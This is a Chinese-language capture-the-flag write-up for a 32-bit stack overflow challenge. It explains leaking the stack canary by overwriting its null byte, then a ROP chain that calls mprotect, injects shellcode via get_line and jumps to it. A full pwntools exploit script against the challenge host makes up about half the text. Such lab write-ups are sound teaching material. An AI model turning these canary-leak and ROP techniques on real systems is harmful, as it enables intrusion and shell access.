 
![](1.png)
#### 出这道题的人大概是川普的粉丝

### 关键词：带出cookie，mprotect，rop
### 分析
#### 先用IDA32反编译，看到main函数调用了stackoverflow()，进入stackoverflow()
![](2.png)
#### 1. 观察到，一共需要我们输入两次，第一次是将名字输入v0的地址处，第二次是将信息输入到s地址处。其中，第一次输入名字后，会将它再输出，因为输出字符串所以遇到“\x00”会停下。而Cookie的最低bytes是0，按照小端法，低位在低地址，我们的输入会先覆盖“\x00”。将"\x00"覆盖为其它值，输出便会将cookie的其它位带出，cookie就成功绕过了
#### 2. 绕过cookie后, 想办法注入shellcode，gdb检查内存空间的权限，发现并没有rwx段能够执行代码。
![](3.png)
#### 但是，在反编译结果中，发现了mprotect函数，可以不必泄露libc就使用它。
![](4.png)
#### checksec发现PIE没有打开，因此可以直接使用IDA，mprotect地址。
![](5.png)
#### 3. 在自己的溢出中构造ROP链，分三步：
* mprotect 开启一段内存的rwx权限
* 调用get_line 在此段注入shellcode
* 跳到此段执行
##### 发现，0x08048CBB指向一个pop,pop,pop,ret 代码段(可以弹出三个参数，执行后面地址所指向的函数)，可以用来帮助我们构造rop。
##### rop链的布局如下(从stackoverflow()返回地址开始)：
mprotect地址 + 0x08048CBB + mprotect参数1 + mprotect参数2 + mprotect参数3 + getsline地址 + shellcode注入地址 + shellcode注入地址

### 脚本
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
# Copyright © 2018 vam <jpwan21@gmail.com>

from pwn import *
context.log_level="debug"
pwn_file="./level5.0-oneshot"
elf=ELF(pwn_file)
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22095)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    #log.debug("stack add:0x%x"%stack_add)
    #log.debug("heap add:0x%x"%heap_add)
    #log.debug("libc add:0x%x"%libc.add)
    pause()

payload = 'a'*0x20 + chr(0x66)

r.sendlineafter("What's your name?", payload)

cookie = chr(0) + r.recv()[0x21:0x24]
print cookie.encode('hex')

mprotect_pos =0x0806DE50
inject_pos = 0x8048000
run_pos = inject_pos + 0x500

ebx_val = inject_pos
ecx_val = 0x1000
edx_val = 7

getsline_pos = 0x0804887C
next_pos = 0x08048CBB

payload2 = 'a'*0x40 + cookie + 'a'*8 + 'a'*4
payload2 += p32(mprotect_pos) + p32(next_pos) + p32(ebx_val)+ p32(ecx_val) + p32(edx_val)
payload2 += p32(getsline_pos) + p32(run_pos) + p32(run_pos)

r.sendline(payload2)
sh = asm(shellcraft.sh())
r.sendline(sh)
r.interactive()
```

